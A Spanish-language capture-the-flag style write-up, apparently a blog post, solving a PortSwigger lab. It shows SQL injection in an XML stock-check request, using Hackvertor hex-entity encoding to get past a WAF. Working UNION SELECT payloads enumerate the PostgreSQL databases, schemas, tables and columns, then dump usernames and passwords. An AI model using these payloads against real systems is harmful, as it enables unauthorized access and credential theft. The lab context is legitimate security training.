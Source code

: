 ```yaml
---
title: SQLI Lab 18
date: 2025-02-12 12:26:00 +0800
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection with filter bypass via XML encoding
  - PostgreSQL
image:
  path: /assets/img/SQLI-Lab-18/Portswigger.png
---
```


## Skills

- SQL injection with filter bypass via XML encoding

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `vulnerabilidad` de `inyección SQL` en su función de `verificación` de `stock`. Los resultados de la consulta se devuelven en la respuesta de la aplicación, por lo que se puede usar un `ataque UNION` para obtener `datos` de otras `tablas`. La `base` de `datos` contiene una `tabla` llamada `users`, que almacena los `nombres` de `usuario` y `contraseñas` de los `usuarios registrados`. Para resolver el laboratorio, debemos realizar un `ataque` de `inyección SQL` para `obtener` las `credenciales` del usuario `administrador` y luego `iniciar sesión` en su cuenta

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-18/image_1.png)

Si hacemos click en `View details` vemos que hay un botón de `Check stock`

![](/assets/img/SQLI-Lab-18/image_2.png)

Si pinchamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos una estructura en `XML`

![](/assets/img/SQLI-Lab-18/image_3.png)

Si `enviamos` la `petición` recibiremos en `número` de `unidades` disponibles

![](/assets/img/SQLI-Lab-18/image_4.png)

Con el simple hecho de poner una `'` en alguna de los campos ya nos lo `detecta` como `ataque`, esto es debido a un `WAF`

![](/assets/img/SQLI-Lab-18/image_5.png)

Para `bypassear` el `WAF` podemos usar `herramientas` como `Hackvertor` para `ofuscar` nuestro `payload` y `evitar` que sea `detectado`. Para encodear nuestro payload debemos hacer c`lick derecho > Extensions > Hackvertor > Encode > hex_entities`

![](/assets/img/SQLI-Lab-18/image_6.png)

Vemos que si ponemos una `'` nos devuelve `0 unidades`

![](/assets/img/SQLI-Lab-18/image_7.png)

He probado ambos campos pero solamente es `inyectable` el campo `storeId`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select null<@/hex_entities>
    </storeId>
</stockCheck>
```

Si `enviamos` la `petición` vemos `null` en la `respuesta`

![](/assets/img/SQLI-Lab-18/image_8.png)

`Listamos` la `version` y la `base` de `datos`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select version()<@/hex_entities>
    </storeId>
</stockCheck>
```

Vemos que estamos ante un `PostgreSQL`

![](/assets/img/SQLI-Lab-18/image_9.png)

`Listamos` los `nombres` de las `bases` de `datos`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select datname from pg_database<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_10.png)

`Listamos` la `base de datos actual`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select current_database()<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_11.png)

`Listamos` los `esquemas` para la `base de datos en uso`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select string_agg(schema_name,', ') from information_schema.schemata<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_12.png)

Listamos `tablas` de la `base de datos public`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select string_agg(table_name,', ') from information_schema.tables where table_schema='public'<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_13.png)

Listamos `columnas` de la `tabla users`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select string_agg(column_name,', ') from information_schema.columns where table_name='users'<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_14.png)

`Listamos` los `usuarios` y `contraseñas` de la tabla `users`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select username || ' : ' || password from users<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_15.png)

``Accedemos`` al `panel administrativo`

![](/assets/img/SQLI-Lab-18/image_16.png)
